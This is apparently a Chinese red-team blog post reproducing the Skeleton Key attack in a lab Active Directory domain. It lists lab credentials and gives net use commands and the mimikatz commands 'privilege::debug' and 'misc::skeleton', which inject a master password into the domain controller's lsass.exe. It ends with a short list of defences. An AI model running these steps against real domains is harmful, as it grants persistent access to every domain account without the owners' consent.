 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ABSLXoBea5YIyvtqJuSrEg)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **39** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

Skeleton Key

使用 Skeleton Key（万能密码），可以对域内权限进行持久化操作。

使用 mimikatz 完成注入 Skeleon Key 的操作，将 Skeleton Key 注入域控制器的 lsass.exe 进程。

**万能密码**

**实验环境**

远程系统：

*   域名：god.org
    

域控制器：

*   主机名：OWA2010CN-God
    
*   IP 地址：192.168.3.21
    
*   用户名：administrator
    
*   密码：Admin12345
    

域成员服务器：

*   主机名：mary-PC
    
*   IP 地址：192.168.3.25
    
*   用户名：mary
    
*   密码：admin!@#45
    

* * *

**Mimikatz 中使用 Skeleton Key**

尝试以当前登录用户身份列出域控制器 C 盘共享目录中的文件：

```
dir \\192.168.3.21\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKHN0cIOAaeqBcC4gn5ibORH1pnjU62mHMMxyErXrz6qL2YxQv640lLvWLVQRkBO31bDZUBD352MOA/640?wx_fmt=png)

因为此时是一个普通的域用户身份，所以系统提示权限不足！

这个时候使用域管理员账号和密码进行连接：

```
net use \\192.168.3.21\ipc$ "Admin12345" /user:god\administrator
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKHN0cIOAaeqBcC4gn5ibORHlDJAVqyX4ZpxJiadYh9xJFpJL7sT5P9bI2XiaUGl8ia9IavUibefGf3fKA/640?wx_fmt=png)

连接成功，这个时候就列出了域控制器 C 盘的共享目录。

之后在域控制器中以管理员权限打开 mimikatz，输入命令将 Skeleton Key 注入域控制器的 lsass.exe 进程：

```
# 提升权限
privilege::debug
# 注入 skeleton key
misc::skeleton
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKHN0cIOAaeqBcC4gn5ibORHeBx9mZb0MeibHIGSge78or0geMb0iblVrZLFgsDsEDictCel5Cic58tjFA/640?wx_fmt=png)

这个时候系统提示 Skeleton Key 已经注入成功，此时会在域内的所有账号中添加一个 Skeleton Key，其密码默认为：“mimikatz”。

接下来就可以了使用域内任意用户的身份配合 Skeleton Key 进行域内身份授权验证了。

在不使用域管理员原始密码的情况下，使用注入的 Skeleton Key，同样可以成功连接系统：

```
# 查看现有 ipc$
net use
# 将之前建立的 ipc$ 删除
net use \\192.168.3.21\ipc$ /del /y
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKHN0cIOAaeqBcC4gn5ibORHkE7Grm5MCDuO1L0s8F9BlMEbZKXJp7wDrF4eRemYNDaAo8Jw1QoX0A/640?wx_fmt=png)

输入命令，使用域管理员账号和 Skeleton Key 与域控制器建立 ipc$：

```
net use \\OWA2010CN-God\ipc$ "mimikatz" /user:god\administrator
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKHN0cIOAaeqBcC4gn5ibORHfPkASaWRC79yRQfMQm581F5Sk6P82bsptdgaXEFicEF1rfG6H71SJew/640?wx_fmt=png)

建立成功后这样就可以列出域控制器的共享目录了！

* * *

**Skeleton Key 防御措施**

*   域管理员用户要设置强密码，确保恶意代码不会在域控制器中执行。
    
*   在所有域用户中启用双因子认证，例如智能卡认证。
    
*   启动应用程序白名单（例如 AppLocker），以限制 mimikatz 在域控制器中的运行。
    

PS：因为 Skeleton Key 是被注入到 lsass.exe 进程的，所以它只存在于内存中，如果域控制器重启，注入的 Skeleton Key 将会失效。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看